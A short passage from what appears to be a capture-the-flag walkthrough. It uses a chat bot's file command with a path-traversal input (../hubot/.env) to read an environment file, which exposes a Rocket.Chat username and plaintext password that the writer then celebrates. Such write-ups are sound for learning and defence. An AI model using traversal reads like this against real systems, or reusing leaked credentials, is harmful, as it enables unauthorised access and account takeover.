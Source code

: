with the LFI we can print the env variables by running the following

```input
file ../hubot/.env
```

```output
export ROCKETCHAT_URL='[http://127.0.0.1:48320](http://127.0.0.1:48320)'  
export ROCKETCHAT_USER=recyclops  
export ROCKETCHAT_PASSWORD=Queenofblad3s!23  
export ROCKETCHAT_USESSL=false  
export RESPOND_TO_DM=true  
export RESPOND_TO_EDITED=true  
export PORT=8000  
export BIND_ADDRESS=127.0.0.1
```

yay, creds!

```
recyclops:Queenofblad3s!23
```
